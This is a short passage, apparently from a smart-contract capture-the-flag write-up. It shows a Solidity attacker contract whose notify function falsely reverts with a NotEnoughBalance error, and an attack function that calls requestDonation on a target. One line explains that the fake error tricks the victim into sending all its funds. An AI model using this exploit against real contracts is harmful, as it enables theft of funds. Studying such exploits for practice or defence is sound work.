 ```javascript
contract INotifyable {
    error NotEnoughBalance();

    function notify(uint256 amount) external {
        if (amount == 10) {
            revert NotEnoughBalance(); 
        }
    }
    
    function attack(address addr) public {
        (bool success, ) = addr.call(abi.encodeWithSignature("requestDonation()"));
        require(success, "Cannot receive donation.");
    }
}
```


We raise the `NotEnoughBalance` error even when there is enough balance to trick the contract into sending all its fund to our account.
